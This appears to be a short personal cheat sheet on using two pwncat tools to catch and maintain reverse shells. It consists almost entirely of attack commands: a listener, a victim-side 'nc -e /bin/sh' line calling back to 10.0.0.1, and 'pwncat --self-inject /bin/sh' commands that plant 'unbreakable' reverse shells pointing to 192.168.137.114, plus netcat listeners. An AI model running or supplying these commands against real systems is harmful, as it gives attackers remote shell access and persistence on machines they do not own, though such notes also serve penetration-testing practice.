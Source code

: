 # pwncat (john hammond)

https://github.com/calebstewart/pwncat.

https://pwncat.readthedocs.io/en/latest/usage.html

```
L >pwncat -l 4444
V >nc -e /bin/sh 10.0.0.1 4444
L >cntrl+d 
L >run help
```


# pwncat

https://github.com/cytopia/pwncat

unbreakable reverse shells
```
pwncat -l 4444 --self-inject /bin/sh:192.168.137.114:4444
pwncat -l 4444 --self-inject /bin/sh:192.168.137.114:4444+3
cntrl+c 

pwncat -l 4444 -vv
or
nc -lnvp 4444
```
